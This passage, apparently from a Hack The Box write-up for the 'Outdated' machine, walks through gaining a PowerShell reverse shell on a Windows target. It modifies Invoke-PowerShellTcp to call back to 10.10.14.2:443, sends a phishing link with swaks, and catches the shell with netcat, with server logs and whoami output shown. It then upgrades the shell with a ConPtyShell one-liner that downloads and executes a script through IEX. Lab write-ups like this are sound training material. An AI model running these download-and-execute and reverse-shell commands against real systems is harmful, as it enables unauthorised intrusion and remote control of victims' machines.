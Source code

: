 ![Description](/assets/img/Pasted image 20230124224208.png)
In order to execute our reverse shell with Powershell we'll extract this html file into an index.html to serve it with a web server:
```bash
curl -s http://localhost/exploit.html > index.html
```
Then we need to move the [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) shell to the same location as index.html and modify it as follows (at the end of the file):
```bash
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 443
```
This line will execute the powershell invoked method to connect once downloaded to the victim machine, afterwards we need to start the following:
1) Web Server
```bash
python3 -m http.server 80
```
2) Send the swaks payload
```bash
swaks --to itsupport@outdated.htb --from shuciran@shuciran.com --body "http://10.10.14.2" --header "Subject: Monitoring internal IP"
```
3) Start the listener port 443:
```bash
nc -lvnp 443
```
After several tries and machine restarts we get a reverse shell:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.175 - - [25/Jan/2023 05:04:34] "GET / HTTP/1.1" 200 -
10.10.11.175 - - [25/Jan/2023 05:04:35] "GET /reverse.ps1 HTTP/1.1" 200 -
--------------------------------------------------------------
PS C:\Users\btables\AppData\Local\Temp\SDIAG_64b29fa4-be09-4f14-8dc4-baba9ddd62ec>
whoami
outdated\btables
```
Now is time to generate a full tty shell, for that we'll use [Invoke-ConPTYShell.ps1](https://github.com/antonioCoco/ConPtyShell) which will be modified as follows: ^8b153b
```powershell
class MainClass
{
    static void Main(string[] args)
    {
        Console.Out.Write(ConPtyShellMainClass.ConPtyShellMain(args));
    }
}

"@;
Invoke-ConPtyShell -RemoteIp 10.10.14.2 -RemotePort 443 -Rows 43 -Cols 186
```
This command line will download and execute this file from the victim machine so you need to open your -RemotePort first with netcat without rlwrap.
```powershell
PS C:\Users\btables\AppData\Local\Temp\SDIAG_64b29fa4-be09-4f14-8dc4-baba9ddd62ec> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/Invoke-ConPtyShell.ps1')
```
Once that we receive the shell we need to Ctrl+Z and execute the command stty as usual:
#Note Do not enter "_reset xterm_" after "_stty raw -echo; fg_" command

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio